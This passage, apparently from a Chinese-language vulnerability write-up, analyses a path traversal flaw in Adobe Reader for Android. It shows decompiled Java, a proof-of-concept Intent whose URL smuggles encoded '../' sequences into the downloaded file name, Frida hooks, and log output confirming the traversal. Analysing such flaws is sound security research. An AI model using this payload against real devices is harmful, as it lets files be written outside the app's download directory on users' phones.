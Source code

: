 ```Java
                if(__intent_extras_FILE_PATH_key_lastPathSegment__.lastIndexOf(46) == -1) {  // 46对应的符号为"."
                    return __intent_extras_FILE_PATH_key_lastPathSegment__ + '.' + fileExtension;  // 返回../poc.pdf
                }

                ...
            }
        }

        return __intent_extras_FILE_PATH_key_lastPathSegment__;
    }
    
    ...
}
```

修改PoC代码

```Java
Intent intent = new Intent();
intent.setClassName("com.adobe.reader", "com.adobe.reader.AdobeReader");
intent.setDataAndType(Uri.parse("https://127.0.0.1/a/b/c/..%2F..%2F..%2F..%2Fpoc.pdf"), "application/*");
intent.putExtra("hideOptionalScreen", "true");
startActivity(intent);
```

打印方法`BBIntentUtils.getModifiedFileNameWithExtensionUsingIntentData()`的返回值

Frida代码

```JavaScript
let BBIntentUtils = Java.use("com.adobe.libs.buildingblocks.utils.BBIntentUtils");
BBIntentUtils.getModifiedFileNameWithExtensionUsingIntentData.implementation = function(str, str2, contentResolver, uri){
    console.log('[w-info] getModifiedFileNameWithExtensionUsingIntentData is called');
    let ret = this.getModifiedFileNameWithExtensionUsingIntentData(str, str2, contentResolver, uri);
    console.log('[w-info] getModifiedFileNameWithExtensionUsingIntentData ret value is ' + ret);
    return ret;
};
```

打印出来的返回值带上了`../`

```
[w-info] getModifiedFileNameWithExtensionUsingIntentData ret value is ../../../../poc.pdf
```

同时我们也看下传入`downloadFile()`的参数

Frida代码

```JavaScript
let ARFileFromURLDownloader = Java.use("com.adobe.reader.misc.ARFileFromURLDownloader");
ARFileFromURLDownloader.downloadFile.implementation = function(title, url){
    console.log('[w-info] downloadFile is called');
    console.log("[w-info] arg1: " + title);
    console.log("[w-info] arg2: " + url);
    console.log(Java.use("android.util.Log").getStackTraceString(Java.use("java.lang.Throwable").$new()));
    return this.downloadFile(title, url);
};
```
